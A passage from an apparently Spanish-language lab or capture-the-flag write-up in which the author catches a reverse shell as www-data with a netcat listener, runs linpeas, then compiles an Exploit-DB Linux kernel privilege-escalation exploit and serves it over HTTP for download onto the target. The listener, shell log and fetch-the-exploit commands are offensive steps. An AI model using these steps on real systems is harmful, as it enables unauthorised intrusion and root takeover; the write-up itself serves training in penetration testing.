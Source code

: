 Ejecuto el comando id y lo veo interpretado por pantalla, puedo observar que soy el usuario www-data como el que ganaré acceso al sistema

![imagen](https://github.com/user-attachments/assets/185bd361-bd9d-46f5-a4ce-8887b2871766)

Inicio un listener con netcat por el puerto 4444 para obtener la reverse shell

```bash
nc -lvnp 4444
listening on [any] 4444 ...
```
Ejecuto la reverse shell y obtengo acceso al sistema como el usuario www-data

![imagen](https://github.com/user-attachments/assets/f6e4e789-e00b-473a-8a24-42b499940a6f)

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.2.133] from (UNKNOWN) [192.168.2.139] 60518
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/antibot_image/antibots$ whoami
www-data
```

## Post exploitation

### Privilege escalation

Utilizo linpeas para enumerar el sistema, lo primero que detecta es un forma potencial de escalar privilegios a root, a través de la versión del kernel del sistema que se encuentra desactualizada y es vulnerable

![imagen](https://github.com/user-attachments/assets/b6605536-4f2e-430a-964c-a1bf4e0e0f12)

Una pequeña busqueda en internet me permite dar con un exploit en C para escalar privilegios

* [Linux Kernel < 4.13.9 Privesc](https://www.exploit-db.com/exploits/45010)

Compilo el exploit y lo transfiero a la máquina victima

```bash
gcc -static 45010.c -o exploit
```

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
www-data@ubuntu:/tmp$ wget http://192.168.2.133/exploit
--2025-02-03 13:05:34--  http://192.168.2.133/exploit
Connecting to 192.168.2.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 21616 (21K) [application/octet-stream]
Saving to: 'exploit'
```
